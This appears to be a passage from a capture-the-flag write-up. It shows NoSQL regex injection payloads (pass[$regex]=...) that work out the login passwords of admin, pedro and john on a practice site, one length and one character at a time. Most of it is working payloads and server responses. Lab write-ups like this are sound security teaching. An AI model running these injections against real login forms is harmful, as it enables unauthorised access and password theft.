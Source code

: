 ```

so admin:admin123

User:	admin
Password:	************
Full Name:	
email:	admin@nosql.int

yep 

now for pedro then john :)

user=pedro&pass[$regex]=^.{11}$&remember=on

Location: /sekr3tPl4ce.php

11 characters

user=pedro&pass[$regex]=^c..........$&remember=on

starts with c

user=pedro&pass[$regex]=^coolpass123$&remember=on

Location: /sekr3tPl4ce.php

so pedro:coolpass123

let's see

User:	pedro
Password:	************
Full Name:	
email:	pcollins@nosql.int

yep :)

now john

user=john&pass[$regex]=^.{8}$&remember=on

8 characters

user=john&pass[$regex]=^10......$&remember=on

Location: /sekr3tPl4ce.php

starts with 1

user=john&pass[$regex]=^10584312$&remember=on

Location: /sekr3tPl4ce.php

john:10584312

User:	john
Password:	************
Full Name:	
email:	jsmith@nosql.int

:)

was really fun!
```